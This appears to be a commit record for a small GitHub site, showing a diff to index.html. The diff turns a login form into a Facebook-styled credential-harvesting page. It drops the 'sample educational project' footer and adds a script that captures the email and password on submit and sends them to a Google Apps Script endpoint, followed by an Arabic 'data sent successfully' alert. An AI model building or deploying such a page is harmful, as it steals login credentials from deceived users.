

Before and after one commit to moazzaghloul92/log-i, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,70 +1,87 @@
-
 <!DOCTYPE html>
 <html lang="en">
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Login Page</title>
+  <title>Login</title>
   <style>
     body {
-      margin: 0;
-      padding: 0;
+      font-family: Arial, sans-serif;
       background-color: #f0f2f5;
-      font-family: Arial, sans-serif;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
     }
-    .container {
-      width: 90%;
-      max-width: 400px;
-      margin: 60px auto;
-      padding: 30px 20px;
-      background: white;
-      box-shadow: 0 0 10px rgba(0,0,0,0.1);
+    .login-container {
+      background-color: #fff;
+      padding: 40px;
       border-radius: 8px;
+      box-shadow: 0 2px 8px rgba(0,0,0,0.1);
+      width: 300px;
     }
-    h2 {
+    .login-container h2 {
+      text-align: center;
       color: #1877f2;
-      text-align: center;
-      font-size: 28px;
+      margin-bottom: 20px;
     }
-    input[type="text"], input[type="password"] {
+    .login-container input {
       width: 100%;
-      padding: 14px;
-      margin: 10px 0;
-      box-sizing: border-box;
-      border-radius: 6px;
-      border: 1px solid #ccc;
-      font-size: 16px;
+      padding: 10px;
+      margin: 8px 0;
+      border: 1px solid #ddd;
+      border-radius: 4px;
     }
-    button {
+    .login-container button {
       width: 100%;
-      padding: 14px;
+      padding: 10px;
       background-color: #1877f2;
       color: white;
       border: none;
-      border-radius: 6px;
-      font-size: 18px;
+      border-radius: 4px;
+      font-weight: bold;
       cursor: pointer;
+      margin-top: 10px;
     }
-    button:hover {
-      background-color: #145dbf;
-    }
-    .footer {
-      text-align: center;
-      margin-top: 20px;
-      color: gray;
-      font-size: 12px;
+    .login-container button:hover {
+      background-color: #155dbe;
     }
   </style>
 </head>
 <body>
-  <div class="container">
-    <h2>Login</h2>
-    <form action="https://formspree.io/f/xeogbvzj" method="POST">
-      <input type="text" name="username" placeholder="Email or phone number" required>
-      <input type="password" name="password" placeholder="Password" required>
+  <div class="login-container">
+    <h2>Log In</h2>
+    <form id="login-form">
+      <input type="email" name="email" placeholder="Email address" required />
+      <input type="password" name="password" placeholder="Password" required />
       <button type="submit">Log In</button>
     </form>
-    <div class="footer">This is a sample educational project only</div>
   </div>
+
+  <script>
+    const form = document.getElementById('login-form');
+    form.addEventListener('submit', e => {
+      e.preventDefault();
+      const formData = {
+        email: form.email.value,
+        password: form.password.value
+      };
+      fetch('https://script.google.com/macros/s/AKfycbxIyA9AibUMRQ__shLek6Rk8uR0Kmne7JdQ6brCeVICUGfYRc9xZnLKMQu_T5z0egRf6A/exec', {
+        method: 'POST',
+        body: JSON.stringify(formData),
+        headers: {
+          'Content-Type': 'application/json'
+        }
+      })
+      .then(res => res.text())
+      .then(data => {
+        alert("تم إرسال البيانات بنجاح");
+        form.reset();
+      })
+      .catch(err => {
+        alert("حدث خطأ: " + err.message);
+      });
+    });
+  </script>
 </body>
 </html>
```
